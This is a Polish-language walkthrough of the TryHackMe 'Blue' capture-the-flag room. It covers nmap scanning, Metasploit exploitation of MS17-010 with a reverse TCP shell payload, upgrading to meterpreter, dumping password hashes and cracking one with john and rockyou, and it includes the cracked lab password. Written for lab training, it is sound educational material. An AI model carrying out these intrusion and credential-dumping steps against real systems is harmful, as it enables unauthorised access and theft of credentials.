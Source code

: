 **TryHackMe - Blue**

**Autor:** adi7312

**Poziom trudności:** Łatwy

## **Task 1 - Recon**

Dokonujemy skanowania podatnej maszyny, będziemy szukać poniższych informacji:

* Wersja OS
* Wersje usług hosta
* Liczba otwartych portów

```bash
nmap -O -sV -p- 10.10.251.166
```


![](p/1.png)


Możemy więc odpowiedzieć na pierwsze zadane pytanie:


![](p/2.png)


Teraz postaramy się ustalić na co podatna jest nasza maszyna, uruchamiamy polecenie:

    nmap -sV -vv --script vuln 10.10.251.166


![](p/3.png)


Jak możemy zauważyć nasza maszyna ma podatny na atak protokół SMB (nazwa podatności: `ms17-10`). Możemy więc odpowiedzieć na ostatnie pytanie z tego zadania.


![](p/4.png)


## **Task 2 - Gain Access**

W celu zdobycia dostępu do systemu skorzystamy z frameworku *Metasploit*. W msfconsole wpisujemy polecenie: `search CVE-2017-0143` (czyli szukamy podatności o podanym wcześniej przez nmapa identyfikatorze). Skorzystamy z pierwszzego exploita, wpisujemy polecenie `use 0`. 


![](p/5.png)


Możemy zatem odpowiedzieć na pierwsze pytanie zadane w tym zadaniu:


![](p/6.png)


Następnie sprawdzamy jakie parametry trzeba ustawić, robimy to poleceniem `options`, jak widzimy musimy ustawić `RHOSTS` (jest to jednocześnie odpowiedź do następnego pytania). Wpisujemy zatem polecenie `set RHOSTS 10.10.251.166`.


![](p/7.png)


Zanim wpiszemy `exploit` powinniśmy jeszcze zmieć *payload* na poniższy:

    set payload windows/x64/shell/reverse_tcp


Teraz możemy wpisać `exploit`. Otrzymaliśmy shella.


## **Task 3 Escalate**

Chcemy teraz ulepszyć shella do meterpretera, wychodzimy z naszej sesji (CTRL+Z) i szukamy w Metasploicie odpowiedniego modułu który ulepszy nam shella to meterpretera. Po znalezieniu wpisujemy `use 0` i ustawiamy niezbędnę parametry (w tym przypadku SESSION).


![](p/8.png)


Wpisujemy `exploit`, po zakończeniu procesu tworzenia sesji meterpretera, możemy do niego przejść w tym celu wpisujemy `sessions -i 3`. Możemy teraz potwierdzić że jesteśmy *NT AUTHORITY\ SYSTEM* (wchodzimy też w sesję 2, aby to potwierdzić).


![](p/9.png)


W sesji *meterpretea* wpisujemy teraz polecenie `ps` w celu wypisania wszystkich pracujących procesów, twórcy CTF karzą nam zapisać PID procesu który jest używany przez *NT AUTHORITY\ SYSTEM* i znajduje się na samym dole. Jednak twórcy jednocześnie ostrzegają że zmiana procesu jest niestabilna i może nie zadziałać w takim wypadku należy skorzyzstać z innego *PID*, my skorzystamy z `PID: 712`.


![](p/10.png)


## **Task 4 Cracking**

Następnie *dumpujemy* hasła w meterpreterze poleceniem `hashdump`. Możemy odpowiedzieć teraz na pierwsze pytanie:


![](p/11.png)


![](p/12.png)


Naszym zadaniem jest teraz złamanie hasła użytkownika john. Zapisujemy hash hasła johna do pliku `hash.txt`. Następnie korzystamy z polecenie (do łamania hasła skorzystamy z pliku rockyou.txt).

    john --format=nt --wordlist=/root/Desktop/wordlists/rockyou.txt /root/Desktop/hash.txt


![](p/13.png)


Hasło Jon'a to `alqfna22`.


![](p/14.png)


## **Task 5 Find flags!**

W celu znalezienie flag wpisujemy polecenie:

    dir *flag*.* /s

Teraz mamy ładnie wypisane lokalizacje naszych flag, pozostało je jedynie odczytać.


![](p/15.png)


Będziemy teraz wpisywać polecenie:`type <lokalizacja flagi>`.


![](p/16.png)


Możemy teraz uzupełnić odpowiedzi na stronie i zakończyć cały CTF.


![](p/17.png)
